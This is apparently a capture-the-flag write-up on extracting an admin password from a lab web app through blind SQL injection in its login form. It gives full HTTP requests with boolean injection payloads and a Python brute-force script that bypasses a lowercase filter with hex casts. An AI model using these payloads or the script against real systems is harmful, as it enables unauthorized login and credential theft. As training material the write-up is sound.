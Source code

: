 # Challenge 8 - Vulnerable Startup: Broken Authentication 3 (Blind Injection)

> This challenge has the same vulnerability as the previous one. However, it is no longer possible to extract data from the Flask session cookie or via the username display. The login form still has the same vulnerability, but this time the goal is to abuse the login form with blind SQL injection to extract the admin's password.

From the previous exercise, we know the backend SQL query used for authentication looks something like:

```sql
SELECT id, username FROM $USER_TABLE WHERE username = '$USERNAME' AND password = '$PASSWORD'
```

The first step is to validate the presence of the SQL injection vulnerability and determine whether it is possible to leverage it to ask the database questions and interpret its answers.

```http
POST /challenge3/login HTTP/1.1
Host: 10.10.205.129:5000
User-Agent: Mozilla/5.0 (Windows NT 10.0; rv:78.0) Gecko/20100101 Firefox/78.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 80
Origin: http://10.10.205.129:5000
DNT: 1
Connection: close
Referer: http://10.10.205.129:5000/challenge3/login?next=http%3A%2F%2F10.10.205.129%3A5000%2Fchallenge3%2Fhome
Upgrade-Insecure-Requests: 1
Sec-GPC: 1

username=admin'+AND+(SELECT+CASE+WHEN+(1=1)+THEN+1+ELSE+0+END)=1--&password=pass
```

This injection causes the database to return the record with username `admin` and thus, authenticate the user.

```http
POST /challenge3/login HTTP/1.1
Host: 10.10.205.129:5000
User-Agent: Mozilla/5.0 (Windows NT 10.0; rv:78.0) Gecko/20100101 Firefox/78.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 80
Origin: http://10.10.205.129:5000
DNT: 1
Connection: close
Referer: http://10.10.205.129:5000/challenge3/login?next=http%3A%2F%2F10.10.205.129%3A5000%2Fchallenge3%2Fhome
Upgrade-Insecure-Requests: 1
Sec-GPC: 1

username=admin'+AND+(SELECT+CASE+WHEN+(1=2)+THEN+1+ELSE+0+END)=1--&password=pass
```

However, this injection causes the database to return no records from the database, which results in not authenticating the user.

This not only proves the existence of the SQL injection vulnerability, but also the fact that it is possible to ask questions to the database and interpret its responses, which is critical for blind SQL injection.

The next step is to determine the database type.

```http
POST /challenge3/login HTTP/1.1
Host: 10.10.205.129:5000
User-Agent: Mozilla/5.0 (Windows NT 10.0; rv:78.0) Gecko/20100101 Firefox/78.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 93
Origin: http://10.10.205.129:5000
DNT: 1
Connection: close
Referer: http://10.10.205.129:5000/challenge3/login?next=http%3A%2F%2F10.10.205.129%3A5000%2Fchallenge3%2Fhome
Upgrade-Insecure-Requests: 1
Sec-GPC: 1

username=admin'+AND+(SELECT+CASE+WHEN+(sqlite_version())+THEN+1+ELSE+0+END)=1--&password=pass
```

The web application successfully authenticated the user upon submitting this request, indicating that the backend database is SQLite.

Determine how many non-SQLite system tables there are.

```http
POST /challenge3/login HTTP/1.1
Host: 10.10.205.129:5000
User-Agent: Mozilla/5.0 (Windows NT 10.0; rv:78.0) Gecko/20100101 Firefox/78.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 154
Origin: http://10.10.205.129:5000
DNT: 1
Connection: close
Referer: http://10.10.205.129:5000/challenge3/login?next=http%3A%2F%2F10.10.205.129%3A5000%2Fchallenge3%2Fhome
Upgrade-Insecure-Requests: 1
Sec-GPC: 1

username=admin'+AND+(SELECT+CASE+WHEN+(COUNT(*)=1)+THEN+1+ELSE+0+END+FROM+sqlite_master+WHERE+type='table'+AND+name+NOT+LIKE+'sqlite_%')=1--&password=pass
```

This request successfully authenticates the user, indicating that there is only one non-SQLite system table. Determine its name.

```http
POST /challenge3/login HTTP/1.1
Host: 10.10.205.129:5000
User-Agent: Mozilla/5.0 (Windows NT 10.0; rv:78.0) Gecko/20100101 Firefox/78.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 158
Origin: http://10.10.205.129:5000
DNT: 1
Connection: close
Referer: http://10.10.205.129:5000/challenge3/login?next=http%3A%2F%2F10.10.205.129%3A5000%2Fchallenge3%2Fhome
Upgrade-Insecure-Requests: 1
Sec-GPC: 1

username=admin'+AND+(SELECT+CASE+WHEN+(LENGTH(name)=5)+THEN+1+ELSE+0+END+FROM+sqlite_master+WHERE+type='table'+AND+name+NOT+LIKE+'sqlite_%')=1--&password=pass
```

This request indicates that the table name is five characters long. Iterating through the characters in the alphabet:

```http
POST /challenge3/login HTTP/1.1
Host: 10.10.205.129:5000
User-Agent: Mozilla/5.0 (Windows NT 10.0; rv:78.0) Gecko/20100101 Firefox/78.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 156
Origin: http://10.10.205.129:5000
DNT: 1
Connection: close
Referer: http://10.10.205.129:5000/challenge3/login?next=http%3A%2F%2F10.10.205.129%3A5000%2Fchallenge3%2Fhome
Upgrade-Insecure-Requests: 1
Sec-GPC: 1

username=admin'+AND+(SELECT+CASE+WHEN+(SUBSTR(name,1,1)='u')+THEN+1+ELSE+0+END+FROM+sqlite_master+WHERE+type='table'+AND+name+NOT+LIKE+'sqlite_%')=1--&password=pass
```

The name of the table is `users`.

The goal here is the password of the `admin` user. It can be assumed that the relevant columns are `username` and `password`, so try them to determine the length of the password.

```http
POST /challenge3/login HTTP/1.1
Host: 10.10.205.129:5000
User-Agent: Mozilla/5.0 (Windows NT 10.0; rv:78.0) Gecko/20100101 Firefox/78.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 130
Origin: http://10.10.205.129:5000
DNT: 1
Connection: close
Referer: http://10.10.205.129:5000/challenge3/login?next=http%3A%2F%2F10.10.205.129%3A5000%2Fchallenge3%2Fhome
Upgrade-Insecure-Requests: 1
Sec-GPC: 1

username=admin'+AND+(SELECT+CASE+WHEN+(LENGTH(password)=37)+THEN+1+ELSE+0+END+FROM+users+WHERE+username='admin')=1--&password=pass
```

The request validates that the columns are `username` and `password` and also that `admin`'s password is 37 characters long. The password is presumably a TryHackMe flag of the format `THM{$32_CHARACTER_HASH}`.

The following script brute forces each letter in the flag:

```python
import string
import requests


host = "10.10.205.129"
username = "admin"
length = 37
keyspace = string.printable[:-5]

with open("password.txt", "a") as f:
    for i in range(1, length + 1):
        for c in keyspace:
            response = requests.post(
                f"http://{host}:5000/challenge3/login",
                data={
                    "username": f"admin' AND (SELECT CASE WHEN (SUBSTR(password,{i},1)=CAST(X'{hex(ord(c)).split('x')[-1]}' AS TEXT)) THEN 1 ELSE 0 END FROM users WHERE username='{username}')=1--",
                    "password": "pass"
                },
                allow_redirects=False
            )

            print(f"[*] Status: character index {i}, character {c}, response code {response.status_code}", end="\r")
            if response.status_code == 302:
                f.write(c)
                f.flush()
                break
    f.write("\n")
```

Notice that the script compares each letter in the password to the statement `CAST(X'{hex(ord(c)).split('x')[-1]}' AS TEXT)`. It turns out that the web application first converts all characters to lowercase in the input `username` before placing it into the SQL query. This means that attempting to compare it to the character `T` would actual result in it being compared to the character `t`, which wouldn't return true. Thus, instead of comparing each character to its character literal equivalent, it is compared to a statement that casts the hex byte of each character into its character literal equivalent. This effectively achieves the same goal and gets around the lowercase restriction.

`admin`'s password, the THM flag, is written to `password.txt`.
